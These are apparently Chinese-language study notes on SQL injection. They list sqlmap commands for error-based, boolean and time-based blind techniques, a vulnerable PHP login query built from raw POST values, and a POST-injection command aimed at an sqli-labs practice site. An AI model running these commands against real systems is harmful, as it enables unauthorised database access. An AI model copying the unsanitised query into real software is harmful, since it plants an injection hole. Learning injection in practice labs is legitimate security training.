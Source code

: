 
**无法发现报错位，但是数据库出错会爆出来**

### 报错注入：

(error based)

```
sqlmap -u [目标url] --current-db --batch --threads 10 --technique E
# 使用报错注入
```





**无法发现报错位，数据库被破坏也无法爆出来，但是界面上只会出现有和没有东西两种情况**

### 布尔型注入：

(booled based)

```
sqlmap -u [目标url] --current-db --batch --threads 10 --technique B
```





**无法发现报错位，数据库被破坏也无法爆出来，界面也没有出现或者消失东西的现象**

### 布尔型时间盲注：

(time based)

```
sqlmap -u [目标url] --current-db --batch --threads 10 --technique T -v 3
```



### post方面注入：

```
$uname = $_POST['uname'];
$passwd = $_POST['password'];
```

```
查：
select username,password from users where username='$uname' and password='$passwd' limit 0,1
```

```
sqlmap:
sqlmap -u http://sqlilabs.njhack.xyz/Less-11/ --data "uname=admin*&passwd=admin&submit=Submit" --current-db --batch --threads 10 --technique E

--data 后面跟的是post的数据【用purbsuite抓包得到】
*号标哪，就是让sqlmap打哪
```
